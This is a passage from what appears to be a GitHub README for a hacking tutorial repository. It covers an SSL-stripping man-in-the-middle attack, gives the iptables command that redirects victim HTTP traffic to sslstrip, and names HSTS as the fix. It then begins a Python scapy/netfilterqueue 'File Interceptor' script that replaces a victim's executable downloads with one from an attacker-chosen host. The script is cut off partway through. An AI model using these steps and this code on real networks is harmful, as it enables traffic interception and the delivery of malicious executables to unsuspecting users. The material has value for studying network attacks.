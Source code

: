 5. Redirect all packets from the victim source traffic onto your made iptable queues (port 80) and finallu over to sslstrip (port 10000) using the following iptables command:
   - ` iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

__Traffic Flow:__ _victim <--> Attacker iptable queues <--> sslstrip <..> target server._


## Fix: Enable HSTS

- The browser specifies a list of websites to only load through HTTPS, hence defeating this form of attack.
- It is prevalant on popular sites like google,facebook etc.


## Previous programs modified/rewritten to support HTTPS:

### 1. File Interceptor

_[Source](https://github.com/m3rcer/Python-Hax/blob/main/File_Interceptor/README.md)_
- We changed the sport and dport definitions to match sslstrip's port definitions (port 10000).
- If an 'exe' were replaced by an 'exe' it would cause a bug where a redundant loop between the iptable queues and sslstrip would be caused. To manage it we check if the replaced 'exe' url matches the requested 'exe' in the request, and only if it dosen't the download is replaced with the new 'exe'. 


```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import subprocess
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-r", "--redirect-host", dest="host", help="Redirect HTTP EXE requests to this HTTPS Site/Host")
    parser.add_argument("-t", "--file-type", dest="type", help="File extension type to redirect")
    options = parser.parse_args()
    if not options.host:
        # code to handle error
        parser.error("\n[-] Please specify a valid HTTPS redirect Host,  use --help for info.")
    if not options.type:
        # code to handle error
        parser.error("\n[-] Please specify a valid file extension,  use --help for info.")
    return options

ack_list = []

def set_load(packet, load):
    packet[scapy.Raw].load = load
    # remove fields and allow scapy to autocomplete these layers
    del packet[scapy.IP].len
    del packet[scapy.TCP].chksum
    del packet[scapy.IP].chksum
    return packet



def process_packet(packet):
    # Cloning and converting to scapy packet
    scapy_packet = scapy.IP(packet.get_payload())
    # Filter for HTTP layer
```